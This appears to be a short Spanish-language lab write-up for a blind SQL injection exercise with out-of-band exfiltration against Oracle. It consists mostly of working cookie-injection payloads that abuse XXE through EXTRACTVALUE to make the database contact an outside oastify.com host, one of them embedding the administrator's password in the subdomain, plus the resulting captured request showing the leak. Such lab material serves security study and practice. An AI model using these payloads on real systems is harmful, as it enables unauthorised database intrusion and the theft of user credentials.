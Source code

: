 ```yaml
---
layout: default
title: 17 - Blind SQL injection with out-of-band data exfiltration
---
```


Oracle :
```R
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//bixkdbjkewy7v26t6d9ep4em9df73zunj.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Query para enviar consultas por http aprovechándose de XXE :

```R
Cookie: TrackingId=etAMxiggOe3gdB3i'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.q6xz1q7z2bmmjhu8usxtdj21xs3mret2i.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Petición recibida

```request
GET / HTTP/1.0
Host: s9zz7w8e15przthczh5p.q6xz1q7z2bmmjhu8usxtdj21xs3mret2i.oastify.com
Content-Type: text/plain; charset=utf-8
```

